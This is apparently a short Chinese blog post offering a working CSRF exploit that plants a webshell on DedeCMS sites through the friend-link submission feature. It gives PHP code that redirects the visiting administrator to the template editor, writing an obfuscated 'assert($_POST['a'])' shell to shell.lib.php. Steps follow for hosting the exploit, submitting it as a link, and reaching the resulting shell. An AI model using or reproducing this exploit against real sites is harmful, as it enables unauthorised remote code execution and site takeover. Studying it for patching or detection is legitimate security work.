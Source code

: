 ```yaml
---
title: "dedecms 友链 getshell"
date: 2018-03-25T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


csrf getshell

<!--more-->

## EXP

```
<?php
//print_r($_SERVER);
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);
$muma = '<'.'?'.'a'.'s'.'s'.'e'.'r'.'t'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'a'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
$url = $dede_login.$exp;
//echo $url;
header("location: ".$url);
// send mail coder
exit();
?>
```

将 exp 部署在服务器上

申请链接

`/plus/flink.php`

添加链接 网站填上 exp 的链接

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522466914.jpg)

之后等待管理员触发

shell 地址

`/include/taglib/shell.lib.php`